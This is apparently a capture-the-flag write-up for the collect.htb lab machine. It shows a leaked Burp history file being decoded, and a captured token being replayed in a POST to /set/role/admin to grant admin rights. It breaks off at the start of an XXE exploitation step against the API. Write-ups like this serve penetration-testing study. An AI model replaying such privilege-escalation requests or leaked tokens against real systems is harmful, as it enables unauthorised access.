 Once we downloaded the attachment of [http://forum.collect.htb/showthread.php?tid=13](http://forum.collect.htb/showthread.php?tid=13) we discovered it's a burp history file.  

Lets decode it an view it in our browser

```bash
git clone https://github.com/mrts/burp-suite-http-proxy-history-converter.git
cd burp-suite-http-proxy-history-converter
pip install --requirement=requirements.txt
# Will create a proxy_history.xml.html file 
python convert-burp-suite-http-proxy-history-to-csv.py ../proxy_history.xml
```

Checking the formatted logs we will discover a request that can be used to gain admin access 

```http
POST /set/role/admin HTTP/1.1
Host: collect.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=r8qne20hig1k3li6prgk91t33j
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 38

token=ddac62a28254561001277727cb397baf
```

# Exploitation

## API XXE

1. Register an account on [collect.htb](http://collect.htb/register) and capture the requests in burp  
2. Use the previously discovered token to elevate our privileges  
```http
POST /set/role/admin HTTP/1.1
Host: collect.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://collect.htb
Connection: close
Referer: http://collect.htb/login
Cookie: PHPSESSID=b8gl9c885k7c52t61afnen4nj8
Upgrade-Insecure-Requests: 1

token=ddac62a28254561001277727cb397baf
```
3. Open [Collect - Admin](http://collect.htb/admin) in your browser, register a new API User and capture the request  
```http
POST /api HTTP/1.1
Host: collect.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
```
